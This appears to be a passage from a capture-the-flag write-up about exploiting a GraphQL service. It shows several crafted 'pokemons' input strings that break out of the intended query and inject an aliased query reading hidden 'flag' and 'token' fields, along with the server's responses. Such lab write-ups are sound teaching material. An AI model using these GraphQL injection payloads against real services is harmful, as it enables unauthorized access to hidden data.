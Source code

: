Oh! Object type `Digimon0x000141a0` has field `flag`!

Now we can finally query `digimOwOUwURawrn38408375018458385023841203489738570123`!

```json
{
  "pokemons": [
    "anything\"){id},injected_query:digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\",name:\"Flagmon\"){flag}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "flag": "Flag not here hahahahahaha"
    }
  }
}
```

Huh? The flag is not here?

If you remember, object type `Digimon0x000141a0` also has some weird `token` fields:

```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        [...]
        {
          "name": "tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b"
        },
        {
          "name": "tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5"
        },
        {
          "name": "tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e"
        }
      ],
      "name": "Digimon0x000141a0"
    }
  }
}
```

Maybe those fields contain the flag?? Let's try that:

```json
{
  "pokemons": [
    "anything\"){id},injected_query:digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\",name:\"Flagmon\"){tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b}}#"
  ],
  "compares": []
}
```
